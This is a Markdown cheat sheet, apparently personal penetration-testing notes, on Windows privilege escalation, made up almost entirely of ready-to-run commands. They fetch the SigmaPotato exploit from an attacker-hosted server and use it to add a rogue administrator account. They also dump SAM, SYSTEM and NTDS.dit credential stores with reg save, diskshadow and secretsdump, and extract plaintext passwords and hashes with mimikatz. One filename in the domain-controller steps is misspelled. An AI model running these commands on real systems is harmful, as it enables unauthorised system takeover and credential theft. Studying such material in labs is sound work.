 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# SeBackupPrivilege
Domain Controllers won't store passwords in SAM but NTDS.dit - however old passwords could still be there. Always run BOTH on DC.
## Local Windows
```
mkdir C:\temp
```
```
reg save HKLM\SAM SAM
```
```
reg save HKLM\SYSTEM SYSTEM
```
Then transfer the sam and system files to kali (i.e. download on winrm, shared folder on xfreerdp, etc).

Then run the following to dump hashes:
```bash
impacket-secretsdump local -sam SAM -system SYSTEM
```
## Domain Controller
Save this as diskshadow.txt:
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```
```
unix2dos diskshadow.txt
```
Upload the created file to the target.

On the remote target, run the following:
```
mkdir C:\temp
```
```
diskshadow /s dishshadow.txt
```
```
robocopy /b E:\Windows\ntds . ntds.dit
```
Transfer ntds.dit from the target to the attacker machine.
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
# Meterpreter
```
getsystem
```
